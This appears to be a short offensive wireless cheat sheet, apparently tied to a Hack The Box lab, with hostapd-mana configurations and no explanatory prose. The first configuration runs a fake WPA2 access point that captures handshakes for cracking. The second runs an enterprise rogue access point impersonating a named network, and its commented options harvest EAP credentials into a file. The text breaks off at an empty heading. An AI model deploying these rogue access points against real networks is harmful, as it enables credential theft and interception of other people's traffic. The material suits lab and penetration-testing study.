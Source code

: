**WPA2 Handshake Capture**

Code: configuration

```configuration
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=HackMe
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=anything
mana_wpaout=handshake.hccapx
```

**Enterprise Rogue AP**

Code: configuration

```configuration
# 802.11 Options
interface=wlan1
ssid=HTB-Wireless
channel=1
auth_algs=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
wpa=3
hw_mode=g
ieee8021x=1

# EAP Configuration
eap_server=1
eap_user_file=hostapd.eap_user

# Certificates

ca_cert=ca.pem
server_cert=server.pem
private_key=server-key.pem
private_key_passwd=whatever
dh_file=dh.pem

# Hostapd-mana Edition
# Remove comments and reload to activate
#enable_mana=1
#mana_loud=1
#mana_credout=credentials.creds
#mana_eapsuccess=1
#mana_wpe=1
```

**EAP Method Negotiation \[hostapd.eap\_user\]**
